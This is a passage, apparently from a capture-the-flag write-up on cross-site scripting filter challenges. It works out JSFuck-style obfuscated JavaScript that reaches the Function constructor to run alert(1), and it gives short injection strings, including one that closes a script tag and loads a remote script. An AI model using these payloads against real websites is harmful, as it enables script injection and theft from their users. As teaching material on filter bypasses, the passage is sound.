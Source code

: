 `_=(![]+[]+!![]+{}+[][![]]);_[14]+_[10]+_[25]+_[3]+_[5]+_[6]+_[7]+_[14]+_[5]+_[10]+_[6] === "constructor"`

So
`(Function('alert(1)'))()`
becomes
`([].sort.constructor('alert(1)'))()`
and with string subs:
```javascript
_=(![]+[]+!![]+{}+[][![]]); ([][_[3]+_[10]+_[6]+_[5]][_[14]+_[10]+_[25]+_[3]+_[5]+_[6]+_[7]+_[14]+_[5]+_[10]+_[6]](_[1]+_[2]+_[4]+_[6]+_[5]+'(1)'))()
```
(good thing I put in syntax highlighting there to help you!)

so the string for this challenge would be:
```
");_=(![]+[]+!![]+{}+{}._);([][_[3]+_[10]+_[6]+_[5]][_[14]+_[10]+_[25]+_[3]+_[5]+_[6]+_[7]+_[14]+_[5]+_[10]+_[6]](_[1]+_[2]+_[4]+_[6]+_[5]+'(1)'))()//
```
which is 150 characters, so still a bit long. (But obscure to anyone trying to figure out what the hell we're doing)

_tactic switch_

the whole thing doesn't have to be a string:
`_=((![])+[]+(!![])+{});window[_[1]+_[2]+_[4]+_[6]+_[5]](1)`
now we just need a reference to `window` or `this`.

I've seen please say `with(0) x=[].sort,x()` get's you a reference to the window object, but no such luck for me.

In the end I didn't find a good way to get to `window`. If you know something, let me know.

_Note_: if you want to see the full solution for this, checkout the later [Skandia II writeup](#Skandia%20%5D%5B)

__another way__
well, you could just use the fact that domains aren't case sensitive and neither is html, so you can src your script from somewhere: (I spun up something that responded with 'alert(1)' to any GET on port 80)
`")</script><script src="http:127.0.0.1">`
`")</script><script src="http:localhost">`
note: you could shorten this further by messing with your local DNS resolution to get shorter urls. Also, remove those quotes.

### win with:
```
</script><script src=http:localhost>
```
36 characters

(28 characters is acheived if you modify your machine to route a 1 character domain to your script file.)


## Template
### filter
```javascript
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
```
